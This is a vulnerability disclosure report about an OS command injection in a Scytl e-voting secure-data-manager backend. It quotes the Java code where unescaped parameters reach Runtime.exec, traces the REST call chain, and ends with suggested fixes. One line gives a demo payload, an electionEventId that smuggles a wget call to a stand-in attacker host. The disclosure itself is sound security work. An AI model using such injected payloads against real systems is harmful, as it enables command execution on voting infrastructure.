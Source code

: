 # OS command injection
---

| Action  | Date  |
|---|---|
| Vulnerability reported  | 08.02.2019   |
| Report closed  | 18.02.2019  |
| Vulnerability fixed  | Next Version (Date NA)  |

Abstract: Given an attacker has internal access to the system they would be able to execute arbitrary OS commands by registering voting events.

The following file is vulnerable for command injection:
```java
/evoting-solution/source-code/online-voting-secure-data-manager/secure-data-manager-backend/secure-data-manager-integration/src/main/java/com/scytl/products/ov/sdm/plugin/SequentialExecutorImpl.java
```

Containing the following function:
```java
    public void execute(List<String> commands, Parameters parameters, ExecutionListener listener) {

        for(String command : commands) {
            String mockCommand = command;
            try {
                //Replace the parameters and execute the command
                String[] partialCommands = replaceParameters(command, parameters);
                String fullCommand = partialCommands[0];
                mockCommand = partialCommands[1];
                Process proc = Runtime.getRuntime().exec(fullCommand);
```

If an attacker is able to manipulate fullCommand, he can overtake the secure-data-manager-backend system.


The replaceParameters function isn't escaping the command: 

```java
    private String[] replaceParameters(String command, Parameters parameters) {
        String partialCommand = command;
        String replacedCommand = command;
        
        for (KeyParameter key : KeyParameter.values()) {
            if(replacedCommand.contains(key.toString())) {
                String value = parameters.getParam(key.name());
                if(value == null || value.isEmpty()){
                    throw new IllegalArgumentException("Parameter #" + key.name() + "# is null or empty");
                } else {
                	replacedCommand = replacedCommand.replaceAll("#" + key + "#", value);
                    if (key == KeyParameter.PRIVATE_KEY) {
                        partialCommand = partialCommand.replaceAll("#" + key + "#", "PRIVATE_KEY");
                    } else {
                        partialCommand = partialCommand.replaceAll("#" + key + "#", value);
                    }
                }
```

The execute function is called from the following file which is used by the ws-rest backend component:
```java
evoting-solution/source-code/online-voting-secure-data-manager/secure-data-manager-backend/sdm-ws-rest/src/main/java/com/scytl/products/ov/sdm/ui/ws/rs/application/OperationsResource.java
```

Here is the vulnerable api declaration:
```java
    @RequestMapping(value = "/generate-ea-structure/{electionEventId}", method = RequestMethod.POST)
    @ApiOperation(value = "Export operation service", notes = "", response = Void.class)
    @ApiResponses(value = {@ApiResponse(code = 404, message = "Not Found"),
            @ApiResponse(code = 403, message = "Forbidden"),
            @ApiResponse(code = 500, message = "Internal Server Error") })
    public ResponseEntity<OperationResult> extendedAuthenticationMappingDataOperation(
            @ApiParam(value = "String", required = true) @PathVariable String electionEventId,
            @RequestBody final OperationsData request) {
        Parameters parameters = buildParameters(electionEventId, request.getPrivateKeyInBase64(), null);
        return executeOperationForPhase(parameters, PhaseName.PREPARE_VC_GENERATION, true, null, null);
    }
```

The important part is that {electionEventId} is declared as a string and we can provide an arbitrary value to it.

The api calls the sequentialExecutor class:
```java
private ResponseEntity<OperationResult> executeOperationForPhase(Parameters parameters, PhaseName phaseName,
                                                                     boolean failOnEmptyCommandsForPhase, SdmSecureLogEvent secureLogEvent, String electionEventId) {
        try {
            List<String> commandsForPhase = getCommands(phaseName);

            if (failOnEmptyCommandsForPhase && commandsForPhase.isEmpty()) {
                logSecure(secureLogEvent, electionEventId,
                    "The request can not be performed for 4005, Missing commands for phase");

                return handleException(OperationsOutputCode.MISSING_COMMANDS_FOR_PHASE);
            }
            ExecutionListenerImpl listener = new ExecutionListenerImpl();
            sequentialExecutor.execute(commandsForPhase, parameters, listener);
```

The sequentialExecutor class afterwards calls the vulnerable execute function.

Exploit chain:
[OperationsResource]->[executeOperationForPhase]->[SequentialExecutorImpl.execute]

Since there was no running instance of the affected components we weren't able to provide a PoC. 
Given we would have access to it a demo exploit would look something like this:

- Register a voting event with a electionEventId named "$({wget,http://www.attacker.org/})"


To fix the vulnerability one could allow only numeric values as an electionEventId.
Another way would be to validate the electionEventId before passing it to the Runtime.exec() function.
Also one could use a string array for the getRuntime().exec() function to ensure only parameters get passed. 


| Researchers |
| --- |
| Jannis Kirschner | 
| Anthony Schneiter | 


